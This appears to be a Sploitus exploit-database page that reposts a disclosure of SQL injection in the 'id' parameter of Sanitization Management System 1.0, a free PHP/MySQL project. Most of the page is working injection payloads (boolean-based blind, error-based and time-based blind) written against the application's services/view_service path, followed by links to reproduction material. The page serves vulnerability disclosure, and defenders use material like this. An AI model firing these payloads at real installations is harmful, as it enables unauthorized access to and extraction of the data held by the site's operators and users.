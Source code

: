 ```yaml
---
title: Sanitization Management System 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38082&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-11-30
fetch_date: 2025-10-04T00:03:14.887362
---
```


# Sanitization Management System 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Sanitization Management System 1.0 SQL Injection Vulnerability

2022-11-29 | CVSS 0.3

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38082
## Title: SMS - PHP (by: oretnom23 ) v1.0 SQLi
## Author: nu11secur1ty
## Vendor: https://github.com/oretnom23,
https://www.sourcecodester.com/users/tips23
## Software: https://www.sourcecodester.com/download-code?nid=15770&title=Sanitization+Management+System+Project+in+PHP+and+MySQL+Free+Source+Code
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/Sanitization-Management-System-1.0

## Description:
The `id` parameter appears to be vulnerable to SQL injection attacks.
The attacker can get all information from this system by using this
vulnerability.

## STATUS: HIGH Vulnerability - CRITICAL

[+] Payload:

```MySQL
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: p=services/view_service&id=126664801' or '5968'='5975' OR
NOT 5461=5461 AND 'gEud'='gEud

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: p=services/view_service&id=126664801' or '5968'='5975' OR
(SELECT 5753 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT
(ELT(5753=5753,1))),0x71767a7071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'DEYy'='DEYy

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=services/view_service&id=126664801' or '5968'='5975'
AND (SELECT 6369 FROM (SELECT(SLEEP(5)))Rnfu) AND 'PUfi'='PUfi

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/Sanitization-Management-System-1.0)

## Proof and Exploit:
[href](https://streamable.com/rnfvjf)

## Time spent
`00:30:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)